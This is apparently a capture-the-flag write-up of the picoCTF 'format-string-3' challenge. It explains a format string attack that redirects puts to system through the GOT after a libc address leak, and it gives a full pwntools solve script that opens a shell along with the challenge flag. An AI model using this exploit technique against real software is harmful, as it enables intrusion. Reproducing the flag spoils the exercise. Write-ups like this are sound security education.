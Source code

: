 ```yaml
---
created: 2024-08-07T22:13
updated: 2024-08-07T23:55
---
```


Format string attack modifying GOT to run custom function after memory address leak.
## Idea

We need to overwrite `puts` to `popen` in memory with writes.
So `puts('/bin/sh')` becomes `system('/bin/sh')`.
## Offset

We can find the location of our format string in memory using `%n$p`.
When the server replies `69ABCDEF` in little endian, `n` is the offset.

Automatic offset finding via pwntools.

```python
from pwn import *

elf = context.binary = ELF('./format-string-3')


def send_payload(payload):
    p = elf.process()
    p.sendline(payload)
    l = p.recvall()
    p.close()
    return l


offset = FmtStr(send_payload).offset
info("offset = %d", offset)
```

## Addresses

In `libc.so.6` we can find the functions related to the challenge.

```python [libc]
0x000000000004F760: system
0x0000000000079BF0: puts
0x000000000007A3F0: setvbuf
```

We have the address of `system` right? Nay, due to **ASLR** we have to do address leak first.
Luckily the author already does that for us.

```python
p = process(program)
# p = remote('rhea.picoctf.net', 50248)
p.recvuntil(b': 0x')
setvbuf_leak = int(p.recvuntil(b'\n', drop=True).decode(), 16)
libc = ELF("./libc.so")
libc.address = setvbuf_leak - libc.symbols['setvbuf']  # normalizing libc base address
sys_addr = libc.symbols['system']
```

We now have the address of `system` in memory.
## Format String Attack

By sending `%p` we can see that `puts` is right next to us in stack.

```
Howdy gamers!
Okay I'll be nice. Here's the address of setvbuf in libc: 0x7f48f9aaa3f0
AAAAAAAA%p
AAAAAAAA0x7f48f9c08963
```

How do we change it?

ELFs store symbol-address map in GOT (Global Offset Table).

We can modify the GOT entry of `puts` like this.

```python
sys_addr = libc.symbols['system']
puts_addr = elf.got['puts']
writes = {puts_addr: sys_addr}

payload = fmtstr_payload(offset, writes)
p.sendline(payload)
```

And that's it, we have shell access.

```flag
picoCTF{G07_G07?_7a2369d3}
```

## Solve Script

```python
from pwn import *

elf = context.binary = ELF('./format-string-3')


def send_payload(payload):
    p = elf.process()
    p.sendline(payload)
    l = p.recvall()
    p.close()
    return l


offset = FmtStr(send_payload).offset
info("offset = %d", offset)

p = elf.process()
# p = remote('rhea.picoctf.net', 50248)

p.recvuntil(b': 0x')
setvbuf_leak = int(p.recvuntil(b'\n', drop=True).decode(), 16)

libc = ELF("./libc.so.6")
libc.address = setvbuf_leak - libc.symbols['setvbuf']  # normalizing libc base address

sys_addr = libc.symbols['system']
puts_addr = elf.got['puts']
writes = {puts_addr: sys_addr}

payload = fmtstr_payload(offset, writes)
p.sendline(payload)
p.interactive()
```
